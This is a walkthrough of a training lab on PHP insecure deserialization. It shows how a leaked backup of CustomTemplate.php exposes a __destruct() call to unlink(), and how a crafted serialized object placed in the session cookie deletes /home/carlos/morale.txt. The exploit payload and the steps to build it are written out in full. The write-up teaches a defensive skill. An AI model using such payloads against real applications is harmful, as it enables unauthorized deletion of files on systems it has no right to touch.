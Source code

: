 # Lab: Arbitrary object injection in PHP

 This lab uses a serialization-based session mechanism and is vulnerable to arbitrary object injection as a result. To solve the lab, create and inject a malicious serialized object to delete the morale.txt file from Carlos's home directory. You will need to obtain source code access to solve this lab.

You can log in to your own account using the following credentials: wiener:peter 

**Hint**

You can sometimes read source code by appending a tilde (~) to a filename to retrieve an editor-generated backup file. 

# Step 1 inspect session cookie

Upon inspecting the session cookie, I find that it is passing an encoded serialized PHP object, and a comment referencing a php file:

![image](https://user-images.githubusercontent.com/83407557/213566510-451164f3-a5ce-4012-9e59-8bd9cb5134a1.png)

**Decoded Cookie**
```php
O:4:"User":2:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"m1xi9a2zpmwcg86w5bpnqvue9fnq4dkg";}
```


# Step 2 find source code

Going to the target tab, I find the php file referenced in the comment:

![image](https://user-images.githubusercontent.com/83407557/213566787-7f79b339-c6ef-4a5c-b29b-316b469d7364.png)


Per the hint I send the php file to repeater and add a `~` to try and find the editor-generated backup file:

![image](https://user-images.githubusercontent.com/83407557/213567028-a07c06a0-4436-4d2a-9037-64d0e786174c.png)

**CustomTemplate.php**
```php
<?php

class CustomTemplate {
    private $template_file_path;
    private $lock_file_path;

    public function __construct($template_file_path) {
        $this->template_file_path = $template_file_path;
        $this->lock_file_path = $template_file_path . ".lock";
    }

    private function isTemplateLocked() {
        return file_exists($this->lock_file_path);
    }

    public function getTemplate() {
        return file_get_contents($this->template_file_path);
    }

    public function saveTemplate($template) {
        if (!isTemplateLocked()) {
            if (file_put_contents($this->lock_file_path, "") === false) {
                throw new Exception("Could not write to " . $this->lock_file_path);
            }
            if (file_put_contents($this->template_file_path, $template) === false) {
                throw new Exception("Could not write to " . $this->template_file_path);
            }
        }
    }

    function __destruct() {
        // Carlos thought this would be a good idea
        if (file_exists($this->lock_file_path)) {
            unlink($this->lock_file_path);
        }
    }
}

?>
```
I see that this file is using the the `__destruct()` magic method, this function will execute when the execution of the php file completes. What it does is check if the value of `lock_file_path` exists it will perfrom the `unlink()` function.

First lets look at the PHP documentation on unlink():

![image](https://user-images.githubusercontent.com/83407557/213568535-fff47f69-070f-41bb-ab67-bde4cc52304e.png)

Next lets show an example of how `__destruct()` works with an example:

```php
<?php

class MyDestructableClass 
{
    function __construct() {
        print "In constructor\n";
        echo shell_exec('date');
        sleep(5);
    }

    function __destruct() {
    	echo shell_exec('date');
        print "Destroying " . __CLASS__ . "\n";
    }
}

$obj = new MyDestructableClass();

?>
```

Note that after 5 seconds, the execution complete and the `__destruct()` function is called:

**Output**
```bash
└─$ php destruct.php
In constructor
Thu Jan 19 05:03:42 PM EST 2023
Thu Jan 19 05:03:47 PM EST 2023
Destroying MyDestructableClass
```

# Step 3 Create a malicious serialized object

Taking a look at the session cookie again:

**Decoded Cookie**
```php
O:4:"User":2:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"m1xi9a2zpmwcg86w5bpnqvue9fnq4dkg";}
```

I see that it is a 4-charater long object called "User", with 2 parameters:
1. key of string "username" with the value of string "wiener"
2. key of string "access_token" with the value of "m1xi9a2zpmwcg86w5bpnqvue9fnq4dkg"


To create the malicous serialized object, I need to get the lengths of the strings. First I need the length of the class name:

```php
class CustomTemplate
```
Finding the length with python:

```bash
└─$ python -c 'print(len("CustomTemplate"))'                  
14
```

Making the first part of my malicious code:

```php
O:14:"CustomTemplate"
```

Next I need to determine the attributes I want to pass:

There is only 1 attribute: the key `lock_file_path` with the value of the target file I want to delete (`/home/carlos/morale.txt`). Both of these are strings, so I need to also get their lengths with python:

```bash
└─$ python -c 'print(len("lock_file_path"))'
14
└─$ python -c 'print(len("/home/carlos/morale.txt"))'
23
```
This makes the final payload:

```php
O:14:"CustomTemplate":1:{s:14:"lock_file_path";s:23:"/home/carlos/morale.txt";}
```
# Step 4 Replace session cookie with malicous serialized object

I capture the request for my account:

![image](https://user-images.githubusercontent.com/83407557/213577210-072d27b6-1800-4c1c-86ed-c3e16dbbc4d3.png)

and inject my payload into the session cookie:

![image](https://user-images.githubusercontent.com/83407557/213577336-c8a8da67-5aa5-4e0e-842c-c519f3b45f55.png)

Doing so deletes the file and solves the lab:

![image](https://user-images.githubusercontent.com/83407557/213577428-e89dbeee-f099-4811-a476-f7dc2035ad52.png)
